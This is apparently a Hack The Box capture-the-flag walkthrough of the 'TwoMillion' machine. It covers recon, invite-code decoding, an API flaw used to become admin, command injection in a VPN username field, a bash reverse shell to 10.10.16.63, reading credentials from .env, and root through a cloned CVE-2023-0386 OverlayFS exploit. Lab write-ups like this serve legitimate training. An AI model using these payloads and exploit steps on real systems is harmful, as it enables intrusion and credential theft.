 # recon
- First i use **nmap -p- --min-rate=10000** 10.10.11.221 to check for open ports
- we got 2 ports open 22 and 80 we run nmap -sC -sV -p22,80 10.10.11.221
- after nmap we found port 80 has cookie  PHPSESSID: httponly flag not set
- we go check the site an no response only redirct to 2million.htb so we modify etc/hosts file with the ip to the site
- its a hackthebox site we run feroxbuster with command **feroxbuster -u http://2million.htb**
- we go check the login page i tryed admin@hackthebox.eu and password is password and we got usernotfound after several trys we also get user not found
- i try reflected xss from the url and its not working
- ![xss](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/xss.jpg)
- we try the join page and it has an invite code page we solve it like the real hackthebox challange
- refresh and look in the network tap in the devolper tools we find its send request to inviteapi.min.js and thats intersting out of all the files displayed
- we go to depuuger to get the file and coppy it and beutify it
- after buetigying the code we see two function (makeinvitecode,verifyinvitecode)
- we put makeinvitecode in the console and we see date printed with encryption type ROT13
![makeinvitecode](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/invitecode.jpg)
- we copy the data and go to cyperchef after decoding it says **In order to generate the invite code, make a POST request to /api/v1/invite/generate**
- we make post request using curl to the path **curl -X POST http://2million.htb/api/v1/invite/generate**
- we got code in base 64 after decoding **echo  V1pZRjgtRk9ETDktSDZSS1YtRTZQMVk= | base64 -d** we got it and use it to signup with email
- i try login with valid email and wrong passwor we still got usernotfound so we cant enumrate valid emails/username
- all links give server error except challnges and access page
- in access page there are 2 links (regenrate,coonectionpack)
- fireup burpsuite and send the 2 request to repeater and the 2 request gave the same response (VPN creds)
- i try playing with the directry /api/v1/user/vpn/generate from vpn adn all gave 404 or 301 except at /api/v1 it gave description of the api
# now we enumurate the api and exploit
- go to curl and  play with the routes (bruteforce))
- intersting api route /api/v1/admin/settings/update we could change user to admin
- so we go to the path /api/v1/admin/settings/update and we got 200 with messege invalid content type
- look at request and see no content type so we add one with json value **content-type : application/json** we send the request and its says missing parameter email
- we add the email parameter with our value in a json format and also is admin set to 1 and we got admin (idor vuln) we check we are admin with api route and yes we are admin
- It’s worth checking if there is any command injection.
- If the server is doing something like gen_vpn.sh [username], then I’ll try putting a ; in the username to break that into a new command. I’ll also add a # at the end to comment out anything that might come after my input. It works:
- we go to generate vpn with admin and yes it has command inj **{"username":"kafafy ; id #"}** using this payload we got the id command
- we try to get shell on the machine using bash reverse shell  **{"username":"kafafy ; bash -c 'bash -i >& /dev/tcp/10.10.16.63/1234 0>&1' #"}**
- we stablize the shell using --> **python3 -c 'import pty;pty.spawn("/bin/bash")'** --> **stty raw -echo;fg** --> **export TERM=xterm**
- .env is a file is commonly used in PHP applications to store environment variable values
- we cat the file and we got admin password we su to admin and we go the home directory to get the user.txt
# now ROOT SHELL
- **find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'** to find and files owned by admin and yes we find a directory contains mail
- the email contains info about cve in overlayfs
- running Ubuntu 22.04 with the kernel 5.15.70 we search for cve for last year
- search for “linux kernel vulnerability fuse overlayfs” limited to the last year returns a bunch of stuff about CVE-2023-0386
- **git clone https://github.com/sxlmnwb/CVE-2023-0386**  in our machine
- **tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386** to make it compressed
- **python -m http.server** to send files
- **cd temp --> wget 10.10.16.63:8000/CVE-2023-0386.tar.bz2 --> tar -xjvf CVE-2023-0386.tar.bz2 -- >cd CVE-2023-0386** -- >
- **./fuse ./ovlcap/lower ./gc** ---------> **./exp**  AND we ARE ROOOOOOOOOOOOT ..
- 

